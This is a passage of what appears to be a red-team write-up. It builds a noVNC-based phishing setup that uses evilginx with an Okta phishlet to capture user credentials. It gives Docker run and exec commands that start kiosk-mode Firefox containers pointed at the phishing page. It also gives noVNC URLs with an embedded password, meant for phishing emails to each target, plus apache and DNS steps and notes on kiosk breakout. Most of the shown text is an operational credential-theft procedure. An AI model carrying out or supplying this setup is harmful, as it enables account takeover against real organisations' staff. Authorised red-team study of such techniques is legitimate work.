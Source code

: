 Means I have to add a new subdomain record now too but no biggie. 
http://ssl1.fhlipzero.io/okta.html?autoconnect=true&resize=remote&password=9VO4e1wXMO2E3MsjKB6BYng3WaC33c3d6NzFU195v

From here... the rest is business as usual, I'll setup evilginx and get an okta phishlet up and running, then simply change up my big docker run script so it opens my evilginx hosted phishing page thats happily tucked away with only internal access to it from the containers...  

So I end up with an excel sheet and some gross concats formulas to 
* stretch out creating the docker commands to spin up the containers
* run firefox with the phishing landing page already loaded in kiosk mode
* then the noVNC URL I'll include in the phishing email to each target

```
docker run -d --add-host ssl1.fhlipzero.io:172.31.42.77 -p6901:6901 --name  user1 firefox/CLIENT:latest
docker run -d --add-host ssl1.fhlipzero.io:172.31.42.77 -p6902:6901 --name  user2 firefox/CLIENT:latest

docker exec user1 sh -c "env DISPLAY=:1 firefox https://ssl1.fhlipzero.io/redirect --kiosk &"
docker exec user2 sh -c "env DISPLAY=:1 firefox https://ssl1.fhlipzero.io/redirect --kiosk &"

http://ssl1.fhlipzero.io/okta.html?autoconnect=true&resize=remote&password=9VO4e1wXMO2E3MsjKB6BYng3WaC33c3d6NzFU195v
http://ssl2.fhlipzero.io/okta.html?autoconnect=true&resize=remote&password=9VO4e1wXMO2E3MsjKB6BYng3WaC33c3d6NzFU195v

Setup x number of A records poiting back to each subdomain   

Setup the virtualhost file in apache to handle the subdomains   

Evilginx is a single lure for me to capture creds on, I can track per user by the noVNC logs later   
```
My t3a (2 vCPU and 8GB ram) is running 20 containers pretty well right now   


Some OPSEC considerations - kiosk breakout is very possible, you can easily get into the firefox settings and then start roaming the system as the docker headless user. I was able to pop the browser console open by hitting ALT + SHIFT + J, then hit right click the menu bar and "Minimize all other windows". From there its a desktop right click and "Terminal" away from desktop access here. 

<img src="error.png" alt="breakout" width="500"/>  
This was a whole ass day just to tuck evilginx into a weird container and keep it safe... god i hope it works. Giant shoutout to mrd0x, this was an awesome dive to go down and gives me more ideas of how this could be used.